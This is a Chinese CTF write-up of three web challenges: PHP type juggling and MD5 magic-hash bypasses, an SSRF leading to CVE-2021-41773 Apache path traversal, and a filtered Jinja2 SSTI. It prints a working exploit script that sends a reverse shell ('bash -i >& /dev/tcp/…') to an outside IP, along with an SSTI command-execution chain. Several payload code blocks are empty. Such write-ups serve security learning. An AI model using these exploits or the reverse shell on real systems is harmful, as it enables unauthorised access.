[NSSCTF] WP 6
===
## [HNCTF 2022 WEEK3] Fun_php

开门源码, 应该是一个经典的 php 特性 byss 题目:

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include "k1y.php";
include "fl4g.php";
$week_1 = false;
$week_2 = false;

$getUserID = @$_GET['user']; 
$getpass = (int)@$_GET['pass']; 
$getmySaid = @$_GET['mySaid']; 
$getmyHeart = @$_GET['myHeart']; 

$data = @$_POST['data'];
$verify =@$_POST['verify'];
$want = @$_POST['want'];
$final = @$_POST['final'];

if("Welcom"==0&&"T0"==0&&"1he"==1&&"HNCTF2022"==0)
    echo "Welcom T0 1he HNCTF2022<BR>";

if("state_HNCTF2022" == 1) echo $hint;
    else echo "HINT? NoWay~!<BR>";


if(is_string($getUserID))
    $user = $user + $getUserID; //u5er_D0_n0t_b3g1n_with_4_numb3r

if($user == 114514 && $getpass == $pass){
    if (!ctype_alpha($getmySaid)) 
        die();
    if (!is_numeric($getmyHeart)) 
        die();
    if(md5($getmySaid) != md5($getmyHeart)){
        die("Cheater!");
    }
    else
        $week_1 = true;
}

if(is_array($data)){
    for($i=0;$i<count($data);$i++){

        if($data[$i]==="Probius") exit();

        $data[$i]=intval($data[$i]);
    }
    if(array_search("Probius",$data)===0)
        $week_2 = true;

    else
        die("HACK!");
}
if($week_1 && $week_2){
    if(md5($data)===md5($verify))
        // ‮⁦HNCTF⁩⁦Welcome to
        if ("hn" == $_GET['hn'] &‮⁦+!!⁩⁦& "‮⁦ Flag!⁩⁦ctf" == $_GET[‮⁦LAG⁩⁦ctf]) { //HN! flag!! F
        
            if(preg_match("/php|\fl4g|\\$|'|\"/i",$want)Or is_file($want))
                die("HACK!");
    
                else{
                    echo "Fine!you win";
                    system("cat ./$want");
                }
    }
    else
        die("HACK!");
}

?>
```

### PHP 加法的类型转换

超全局变量 `$_GET[]` 中传入值永远默认是**字符串类型**, 而 PHP 加法的时候会尝试从字符串等内容中读取数值:

1. (可能带小数点的) 规范数字表述

    例如 `$a = '1.0'`, 运算时 `$a => 1.0`;

2. 布尔型

    例如 `$a = 'true' => 1`, `$b = 'false' => 0`

3. 带有非数字内容的字符串

    php 会尝试从字符串首部读入数字, 直到读入任何非法字符, 例如:

    ```php
    $a = 3142abc => 3142
    $a = 3abc142 => 3
    $a = 3.14abc2 => 3.14
    ```

    需要注意的是, **数字 + `e` + 数字** 可以被解析为**科学计数法**, 也是合法输入:

    ```php
    $a = 2e-3xyz => 2 x 10^(-3) => 0.002
    ```

4. 对象

    原则上来说对象不能直接参与运算, 会抛出异常, 但是如果对象配置了 `__toString()` 魔术方法, 则会先转为方法内的字符串, 再按照上面的规则参与运算:

    例如假设有这么个对象:

    ```php
    <?php
        class C{
            function __toString() {
        return '100a1';
        }

        $c = new C();
        echo $c + 0;
    >
    ```

    结果是 `$c.__toString() + 0 => '100a1' + 0 => 100`;

因此此处要令结果为 `114514`, 只需要传入 `114514` 即可;

### MD5 弱碰撞

#### 弱比较

这里首先要两个函数, 分别要求:

- `(!ctype_alpha($getmySaid))`: 要求传入全字母;
- `(!is_numeric($getmyHeart))`: 要求传入数字或者数字字符串;

此处有两种碰撞方案:

1. 固定其中一个, 例如全字母的这个变量, 然后对另一个进行穷举, 直到两者符合弱相等;

2. 注意此处 md5 值为弱比较, 按照两者各自的规则对两个变量同时进行枚举, 直到找到 md5 值都为 `0e + 数字` 的变量; 

> 此处利用的原理是弱比较时, `0e` 开头 + 数字的变量都会被科学计数法解析转化为 0 从而实现;

显然方案 2 更简单;

#### 枚举

枚举脚本:

```python
import hashlib
import random
import string

def random_string(min_len=5, max_len=12):
    """生成随机字符串（字母+数字）"""
    length = random.randint(min_len, max_len)
    return ''.join(random.choices(string.ascii_lowercase + string.digits, k=length))

def is_magic_md5(md5_hash: str) -> bool:
    """判断 md5 是否满足魔术哈希条件: '0e' + 全数字"""
    return md5_hash.startswith("0e") and md5_hash[2:].isdigit()

attempts = 0

while True:
    s = random_string()
    md5_hash = hashlib.md5(s.encode()).hexdigest()
    attempts += 1

    if is_magic_md5(md5_hash):
        print(f"[+] Found: {s} -> {md5_hash}")
        print(f"Attempts: {attempts}")
        break

    # 每 10000 次打印一次进度
    if attempts % 10000 == 0:
        print(f"...{attempts} tries")
```

也可以用一个经常用到的碰撞字符串: `QNKCDZO` 。

> 常用 md5 弱比较为 0 的魔术值:
> QNKCDZO (全大写字母),  240610708 (全数字), 0e215962017(科学计数法, 并且 md5 仍与自身弱相等)

### 数组绕过

接下来这段函数看起来很吓人, 两段搜索, 第一段搜索禁止传入 'Probius' 这个字符串, 也就是不能含有这个字符串; 而第二段这个搜索函数 `array_search()` 的特点是**宽松比较**。

> PHP 手册: [array_search 函数](https://www.php.net/manual/zh/function.array-search.php)

简单来说, `array($a, $data)` 这段代码的本质是从前往后读数组 `$data`, 对每一位都做 `if $a == $data` 的**弱比较**, 那么此处的字符串 'Probius' 在字符串弱比较时会被转换为 0 , 只要传一个满足同样条件的值就行;

之后的 `md5($data)===md5($verify)` , 只需要利用传两个数组, 均抛回异常 (`False`) 的特性即可, payload:

```
(POST)
verify[]=0&data[0]=0probius
```

### unicode 隐藏字符

接下来这处代码有 unicode 隐藏字符:


```php
"[U+202E][U+2066] Flag![U+2069][U+2066]ctf" == $_GET[[U+202E][U+206E]LAG[2069][2066]ctf]
```

用 python 快速转 url 编码:

```python
import urllib.parse
s = "\u202e\u2066LAG\u2069\u2066ctf"
# s = "\u202e\u2066 Flag!\u2069\u2066ctf"
print(urllib.parse.quote(s, safe=''))
```

还有个取巧简单的办法, 打开 vscode 的不可见字符显示, 然后拷贝进去处理就行, 这样最快。

```
(GET)
hn=hn&%E2%80%AE%E2%81%A6LAG%E2%81%A9%E2%81%A6ctf=%E2%80%AE%E2%81%A6%20Flag!%E2%81%A9%E2%81%A6ctf
```

### cat 指令绕过

最后这段绕过:

```php
if ("hn" == $_GET['hn'] && "ctf" ==$_GET['ctf']) { //HN! flag!! F
    if(preg_match("/php|\fl4g|\\$|'|\"/i",$want)Or is_file($want))
        die("HACK!");

        else{
            echo "Fine!you win";
            system("cat ./$want");
            } 
}
```

这里利用 `cat` 的通配符支持即可; `cat` 支持 `?` 和 `*` 匹配; 由于 **`*` 支持任意长度, `?` 仅支持单位**, 这里用 `*`

payload:

```
(POST)
want=fl*
或者
want=fl4?????
```

最终:

```
(GET)
/?user=114514&mySaid=QNKCDZO&myHeart=0e215962017&hn=hn&%E2%80%AE%E2%81%A6LAG%E2%81%A9%E2%81%A6ctf=%E2%80%AE%E2%81%A6%20Flag!%E2%81%A9%E2%81%A6ctf HTTP/1.1

(POST)
data[]=Probiu&verify[]=1&want=fl*
```

    

## [NSSCTF 2nd] MyBox(revenge)

### SSRF 读取文件

进入网站直接重定向了, 抓个包看看, 响应包暴露信息, 这个网站极大概率是 Flask app;



测试是否有 SSTI 注入, 尝试 `{{config}}`, `{{7*7}}` 没有回显, 暂时作罢;

接着尝试有没有 SSRF, 尝试 `file:///etc/passwd`, 有回显;



接下来试 `file:///proc/self/version` 回显了一个 "no!", 说明被 WAF 了;

退一步尝试读默认的 app.py 路径:

```python
from flask import Flask, request, redirect
import requests, socket, struct
from urllib import parse
app = Flask(__name__)

@app.route('/')
def index():
    if not request.args.get('url'):
        return redirect('/?url=dosth')
    url = request.args.get('url')
    if url.startswith('file://'):
        # waf 了 file 协议中的 proc
        if 'proc' in url or 'flag' in url:
            return 'no!' 
        with open(url[7:], 'r') as f:
            data = f.read()
            if url[7:] == '/app/app.py':
                return data
            if 'NSSCTF' in data:
                return 'no!'
            return data
    elif url.startswith('http://localhost/'):
        return requests.get(url).text
    elif url.startswith('mybox://127.0.0.1:'):
        # SSRF 格式: mybox://127.0.0.1:port/_content
        port, content = url[18:].split('/_', maxsplit=1)
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(5)
        s.connect(('127.0.0.1', int(port)))
        s.send(parse.unquote(content).encode())
        res = b''
        while 1:
            data = s.recv(1024)
            if data:
                res += data
            else:
                break
        return res
    return ''

app.run('0.0.0.0', 827)
```

### 自定义协议 mybox

这里主要是需要理解 content 应该如何填充? 注意:

```python
s.send(parse.unquote(content).encode())
```

也就是 content 里面其实是完整的 http 原始报文, 接下来试试套皮访问:

```python
import requests
import time
from urllib.parse import urlencode, quote
import urllib.parse

base_url = 'http://node5.anna.nssctf.cn:29199'

# proxies = {
#     'http': 'http://127.0.0.1/8080',
#     'https': 'http://127.0.0.1/8080',
# }

content_raw = '''GET /?url=http://localhost/ HTTP/1.1
Host: node5.anna.nssctf.cn:29199
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i

'''

# 规范为 CRLF（先把已有的 CRLF 统一为 LF，再替换为 CRLF，避免重复）
content_raw = content_raw.replace('\r\n', '\n').replace('\n', '\r\n')

# URL 编码
content = quote(content_raw, safe='')

PORT = 827

url = "{base_url}/?url=mybox://127.0.0.1:{PORT}/_{content}".format(base_url=base_url, PORT=PORT, content=content)

if __name__ == '__main__':
    result = requests.get(url=url)
    print(result.text)
```

> 此处有几个值得记录的注意事项:
> - 需要把换行规范化为 CRLF (`\r\n`), 而非 LF(仅 `\n`), 因为有些服务需要严格使用 CRLF 换行规范, 执行时先把已有的 CRLF 统一为 LF, 再换回 CRLF 避免重复;
> - 也可以直接抓包修改, 把 `%20` 改成 `%25%20` 就行了;

接下来用嵌套包来探测 80 端口, 将两边的端口信息都改成 80, 探测一个不存在的文件:



注意 Apache 版本号为 2.4.49, 这个版本存在路径穿越漏洞;

### CVE-2021-41773 路径穿越

生效版本: Apache HTTP Server 2.4.49

> `../` 被 WAF, 但是 `.%2e/` 或者 `%2e%2e/` (全用或者混用 URL 编码) 可以通过; 绕过 WAF, 执行结果是读取 Apache web 目录以外的其他文件; 或者在开启了 cgi 的服务器上**执行任意命令**

#### exp

这里过了很久没发现问题, 看了下 wp, 要编码两次, 因为等于多了一次嵌套, 脚本:

```python
import urllib.parse
test =\
    """POST /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh HTTP/1.1
Host: 127.0.0.1:80
Content-Type: application/x-www-form-urlencoded
Content-Length: 52

bash -c 'bash -i >& /dev/tcp/47.108.39.75/4444 0>&1'
"""
# 注意后面一定要有回车，回车结尾表示http请求结束
tmp = urllib.parse.quote(test)
new = tmp.replace('%0A', '%0D%0A')
result1 = 'gopher://127.0.0.1:80/'+'_'+urllib.parse.quote(new)
result2 = result1.replace('gopher', 'mybox')
print(result2)
```

#### 发送反弹 shell



收到反弹 shell





拿到 flag;

## [安洵杯 2020] Normal SSTI

### 题解

进入网站, 开门见山的注入点: `/test?url=`, 尝试后发现过滤了双写大括号 `{{`, 尝试用 `` 来绕过:

```python

```



确认存在 SSTI 注入; 进一步尝试发现还存在对 `'`, `_`, `global`, `.`, `chr`, `set`, `[]`, `request`, `if` 的过滤, 安全字符: `"`, `()`, `|`, `attr`;

因为双引号可用, 接下来试试是否支持转义: 

```python
{%print(%22\u0068\u0065\u006C\u006C\u006F%22)%}
```



成功;

接下来构造这条 payload:

```python

```

用 `|attr()` 来获取列表元素, 以代替 `.` + `[]`:

1. 先构造到 `__globals__` 这里:

```python

```



成功;

2. 处理字典

注意! `__globals__` 返回的是一个字典, 之后要获取的字典的 `__import__` 属性, 这里用 `|attr()` 是会获取不到的 (**Python 不允许用这个过滤器去访问字典对象**), 而因为 `[]` 被过滤, 此处必须用 `get()` 方法

```python

```



拿到 `__import__` 内置方法;

3. 导入 `os` 模块:

```python

```



4. 使用 `os` 的 `popen` 方法 RCE

```python

```



执行成功! 

5. 调整 payload 中的 RCE 部分寻找 flag, 如果被 WAF 掉就换上 unicode 即可:

最终 payload:

```python

```



### 总结

1. 更简单的攻击链:

后来看 wp 发现了从 `lipsum` 开始的攻击链:

```python
lipsum|attr("__globals__").get("os").popen("ls").read()
```

这个 `lipsun` 是一个内置的全局函数, 并且这个内置空间的全局函数中本身就含有 `os` 模块, 省去了导入步骤, 更加简单;

2. Jinja2 过滤器

需要注意的是, 在使用过滤器的时候不应该一次性全部把之前的 payload 转义, 而应该从后往前一个一个调试, 需要注意返回的对象具体是什么数据结构; 比如这道题返回的是字典, 字典需要使用 `get()` 方法, 避免错误的使用; 这也算踩了个坑。

